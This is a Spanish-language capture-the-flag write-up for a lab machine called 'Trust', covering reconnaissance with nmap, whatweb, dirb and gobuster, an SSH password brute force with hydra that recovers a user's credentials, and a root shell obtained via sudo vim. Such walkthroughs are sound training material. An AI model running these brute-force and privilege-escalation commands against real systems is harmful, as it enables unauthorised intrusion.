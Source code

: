 ```yaml
---
description: 'Dificultad: Muy fácil'
---
```


# Máquina TRUST

Fecha: 08 de Marzo de 2025

Objetivo: 172.18.0.2

***

## Fase de reconocimiento

Comenzamos haciendo un ping a la máquina para ver si nos contesta.

```
ping 172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Respuesta al comando ping</p></figcaption></figure>

Lanzamos el comando NMAP, con los parámetros -sV y -O.

```
nmap -sV 172.18.0.2 -O
```

Acabamos de averiguar que la máquina objetivo dispone de los puertos 80 y 22 abiertos, y funcionando actualmente.&#x20;

* 22/tcp open ssh OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)&#x20;
* 80/tcp open http Apache httpd 2.4.57 ((Debian))

Vamos a visitar la web, para ver que nos arroja el puerto 80.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Captura de pantalla de la salida de Apache al instalar un nuevo servidor</p></figcaption></figure>

Vemos que nos retorna la página de configuración del servidor Apache Web Service. Vamos a probar con los ficheros robots.txt y sitemap.xml para ver si contienen información.

No existen los ficheros robots.txt, ni el sitemap.xml.

Vamos a ver que nos reporta _**Wappalyzzer**_ y podemos ver que nos dice que se trata de un servidor Linux, con un _**"Apache HTTP Service"**_ y una distribución **Debian**.

Probamos con el comando _**whatweb**_ con el parámetro -v y nos reporta lo siguiente.

```
whatweb 172.18.0.2 -v
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Ssalida del whatweb -v</p></figcaption></figure>

Hice un _**dirb**_ para hallar directorios ocultos y me encontré con el siguiente output del comando.

```
dirb http://172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Salida del comando dirb</p></figcaption></figure>

He encontrado una zona llamada _**server-status**_, pero al intentar navegar y acceder a esa parte me aparece lo siguiente.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al intentar navegar me dice que tengo el acceso prohíbido.

Vamos a hacer un poco de Fuzzing. El Fuzzing consiste en una metodología en la que enviaremos datos aleatorios o modificados a una aplicación web con el objetivo de provocar errores o descubrir vulnerabilidades.

Primero buscaremos los directorios afectados.

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -t 30 -o results.txt

```

El comando nos reporta esta salida

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Salida del comando gobuster haciendo fuzzing</p></figcaption></figure>

Ahora que ya hemos extraido los directorios, buscaremos en los ficheros.

```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 30 -o results_files.txt

```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1).png" alt=""><figcaption><p>Salida de los ficheros encontrados en la máquina objetivo</p></figcaption></figure>

Podemos ver que hay 3 ficheros en verde que nos devuelven un código 200.

Hemos visitado la web objetivo 172.18.0.2/secret.php y hemos encontrado esto.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

## Fase de Explotación

Lo único que se me ocurre es hacer fuerza bruta al puerto 22 (ssh) pero no se si existe otra solución.

Para ello solo conozco en estos momentos, [hydra](https://www.kali.org/tools/hydra/). Lanzaremos pues el comando para averiguar el password mediante hydra.

```
hydra -l mario -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://172.18.0.2
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>Resultados del ataque al objetivo con Hydra</p></figcaption></figure>

***

## Fase de Post-Explotación

Una vez obtenidas las credenciales del usuario. Podemos acceder a la máquina objetivo mediante SSH.

```
ssh mario@172.18.0.2
```

Introducimos la password encontrada anteriormente <mark style="color:blue;">**chocolate**</mark>, y estamos dentro.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora deberíamos buscar los ficheros vulnarables que tenga comprometidos la máquina a nivel de sistema que el SUID sea del usuario root. Para ello lanzaremos el siguiente comando

```
find / -perm -4000 -user root 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vemos que la salida del comando nos retorna todos estos ficheros.

Probamos a ver si nos permite ejecutar algo como root.

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption><p>Output del sudo -l</p></figcaption></figure>

Vemos que podemos ejecutar sobre vim. Sino sabemos como explotarlo, siempre podemos consultar [GTFOBins ](https://gtfobins.github.io/)

```
sudo vim -c ':!/bin/bash'
```

Y si hacemos un whoami podemos ver que ya somos root.

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>
